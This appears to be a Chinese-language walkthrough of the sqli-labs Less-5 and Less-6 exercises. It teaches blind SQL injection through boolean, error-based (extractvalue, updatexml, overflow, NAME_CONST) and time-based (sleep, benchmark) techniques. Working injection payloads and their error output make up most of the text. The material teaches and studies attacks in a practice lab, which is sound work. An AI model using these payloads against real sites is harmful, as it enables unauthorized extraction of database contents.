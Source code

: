 # 五、答题模式-盲注的讲解-Less-5~6

### Less-5
直接加 `?id=1'#` ，这时候会报错语法错误 `syntax to use near '' LIMIT 0,1' at line 1`

那么我们应该要明白，报错多出的sql语句是 `' LIMIT 0,1` ，那么我们构造后的php语句就可能是：<br>
`  $sql = "select * from users where id='1' # ' limit 0,1 "  `

那么sql的语法错误就是： `' limit 0,1`

这时候我们需要的操作是将#替换成%23，但是**常用将 # 换成 --+** ，这时候会正常注释了多余出来的sql语句，即成功绕过。

在Less-5中，正常sql查询后会显示一个常量，因此我们需要操作的是对sql查询时候注入判断，正常执行后根据时候返回常量判断注入正确性。

开始布尔逻辑注入：

- 此处注入：<br>
    `?id=1' and left(version(),1)=5--+`<br>
    `?id=1' and left(version(),1)=4--+`

    可见是返回得到版本号是mysql5.版本。

- 继续注入：<br>
    `?id=1' and ascii(left(database(),1))=115--+`<br>
    此时是正常返回，那么可知115对应s，那么数据库名可以猜出了。

- `?id=1' and length(database())=8--+`<br>
    正常返回，可知数据库名长度为8。

-   `?id=1' and left(database(),2)>'sa'--+`<br>
    `?id=1' and left(database(),2)='se'--+`
    正常返回，可逐个猜库名。

-    `?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109--+`<br>
    109是m，这里是逐个猜表名的思路。

- `?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and table_schema=database() and column_name regexp '^pa' limit 0,1)--+`<br>
    继续猜表的列名，这里使用regexp匹配猜当前库的users表里是否存在pa开头的列名。

- `?id=1' and ord(mid((select IFNULL(CAST(username AS CHAR),0x20) from security.users order by id limit 0,1) ,1,1))=68 --+`<br>
    这里检索出数据，得到users表里数据的第一个id的username列第一个字符为68即D，可逐个慢慢检索。

小结：以上通过布尔盲注得到熟悉和理解。

接下来，使用报错型和延时盲注。


- 首先证实存在报错型盲注漏洞：<br>
    `?id=1' union Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a--+`

    Duplicate entry '::root@localhost::1' for key 'group_key'

- 利用double数值类型溢出报错注入：<br>
    `?id=1' union select 1,2,exp(~(select * from (select user())a))--+`
    
    DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

- 利用bigint溢出报错注入：<br>
    `?id=1' union select 1,2,!(select * from (select user())a) - ~0--+`

    BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'

- xpath报错——extractvalue检查函数<br>
    `?id=1' and extractvalue(1,concat(0x7e,(select @@version),0x7e))--+`
    
    XPATH syntax error: '~5.6.17~'

    这里@@version可以用version()替换。extractvalue()表示对xml的检查函数。
    
- xpath报错——updatexml修改函数<br>
    `?id=1' and updatexml(1,concat(0x7e,(select @@version),0x7e),1)--+`

    XPATH syntax error: '~5.6.17~'
    
    这里@@version可以用version()替换。extractvalue()表示对xml的修改函数。

- 利用数据的重复性
    
    `?id=1'union select 1 from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x --+`

    Duplicate column name '5.6.17'
    
    这里利用name_const()函数的列重复性报错。
    
    > 补充说明：**NAME_CONST(name,value)**<br>
    返回给定值。当用于产生结果集列时，NAME_CONST()使该列具有给定的名称。参数应为常量。<br>
    当然，对于应用程序可以使用简单的as别名，效果完全相同。<br>
    `mysql> SELECT NAME_CONST('myname', 14);`<br>
    结果如下：
    
    | myname |
    |--------|
    |     14 |
    
- 延时注入——sleep()函数
    
    `?id=1' and if(ascii(substr(database(),1,1))!=115,1,sleep(5))--+`

    这里利用sleep()函数进行延时注入，115是s，此时会有5秒的延迟返回。
    
- 延时注入——BENCHMARK()函数
    
    `?id=1' union select (if(substr(current,1,1)=char(115),benchmark(50000000,encode('msg','msg_pass')),null)),2,3 from  (select database() as current) as tb1--+`

    BENCHMARK()循环操作n次。
    
    
### Less-6
    
这里Less-6是和5差不多的，只是在id引用换为双引号。

直接给出payload：

`?id=1" and left(version(),1)=4--+`

    
```php
    $sql = "      "
    select * from users where id = " 1" and left(@@version,1)=5 #  " limit 0,1
```
    
#### **注意：单引号和双引号不能混用！！**

    
    